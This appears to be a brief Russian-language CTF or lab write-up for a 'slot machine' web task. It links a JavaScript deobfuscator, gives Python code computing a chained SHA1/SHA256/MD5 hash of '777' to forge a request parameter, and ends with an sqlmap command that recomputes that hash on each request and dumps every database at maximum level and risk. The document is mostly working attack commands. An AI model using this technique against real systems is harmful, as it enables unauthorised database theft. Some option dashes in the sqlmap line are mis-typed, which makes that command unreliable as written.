 # Игровой автомат

# Деобфускация JS

[deobfuscate.io](https://deobfuscate.io/)

# Шифрование значения hash для запроса

```
import hashlib

result='777'

hash=hashlib.md5(hashlib.sha256(hashlib.sha1(hashlib.sha256(hashlib.sha1(result.encode('utf-8')).digest()).digest()).digest()).digest()).hexdigest()

print(hash)
```

# SQLmap

```
sqlmap --eval "import hashlib;hash=hashlib.md5(hashlib.sha256(hashlib.sha1(hashlib.sha256(hashlib.sha1(result.encode('utf-8')).digest()).digest()).digest()).digest()).hexdigest()" -r request1.txt —level 5 —risk 3 --flush-session --dump-all
```


